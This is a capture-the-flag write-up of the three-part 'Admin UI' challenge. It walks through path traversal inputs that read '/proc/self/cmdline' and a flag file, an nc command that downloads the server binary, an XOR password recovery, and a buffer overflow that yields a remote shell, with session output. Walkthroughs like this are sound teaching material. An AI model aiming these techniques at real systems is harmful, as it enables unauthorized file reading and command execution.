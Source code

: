 # Admin UI

> https://ctftime.org/writeup/10289

When we examine patchnotes we can find out that although path traversal vulnerability was patched in v0.2 it was rolled back in v0.3.
Let's try it
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../proc/self/cmdline
./main
```
So our binary is named `main`. Hopefully we can just print its contents the same way.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../main
```
We have to redirect output to file and then remove additional data added by this application (menu etc.)
```
printf "2\n../main\n3\n" | nc mngmnt-iface.ctfcompetition.com 1337 > output.bin
```
(open output.bin in any notepad or hexeditor and remove everything before \x7fELF and after the last series of null bytes at the end)
This way we got the copy of the binary running on the server.
When we open it in IDA we can see that the application reads the password from file `flag`. Let's cat it.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
Flag: `CTF{I_luv_buggy_sOFtware}`

# Admin UI 2

> https://ctftime.org/writeup/10288

When we enter the flag from previous level as the password we can see that it's not the end and we have to enter secondary password.
When we analyze it in IDA, we can notice that it only checks if the password has 35 characters (maybe it wasn't intended by creators of this challenge).
Anyway we can the second flag offline. There is `_ZL4FLAG` offset in IDA and it's `const unsigned __int8 FLAG[35]`.
We can also notice that before length check our password is xorred with 0xC7 byte. So maybe if we just xor the flag from memory with this byte we'd get the flag back?
This [script](2nd.py) does it for us.

Flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`

# Admin UI 3

> https://ctftime.org/writeup/10287

The last part of the series and the most interesting one. We finally get to command execution. Unfortunately there is variable `_ZL13shell_enabled` and it's set to false.
But we can execute some built-in commands. `debug` command prints us a lot of interesing informations about the memory. The most important is `_ZL13cmds_executed` variable and its address. `shell_enabled` is just after it in the memory!
Also there is `echo` command which calls printf with our input as first parameter. This would allow us to perform format string attack.
But there's an easier solution. ASLR is disabled for this binary, so addresses are constant and we don't need to print them at all (we can get it with IDA).
The second vulnerability is buffer overflow. If we send 0x38 times any letter and after that an address of the debug_shell() call (the if branch that would be executed if shell_enabled variable were set to true) the application will return to that address.
[exploit](exploit.py)
When you run the exploit you have to type `quit` twice. And then you have the shell.
```
$ ./exploit.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
:
Authenticated
[*] Switching to interactive mode

> Unknown command ''
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAICAA'
> Bye!
$ ls -la
total 144
drwxr-xr-x 3 user   user      4096 Jun 18 08:25 .
drwxr-xr-x 3 nobody nogroup   4096 May 25 13:19 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
-rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Flag: `CTF{c0d3ExEc?W411_pL4y3d}`
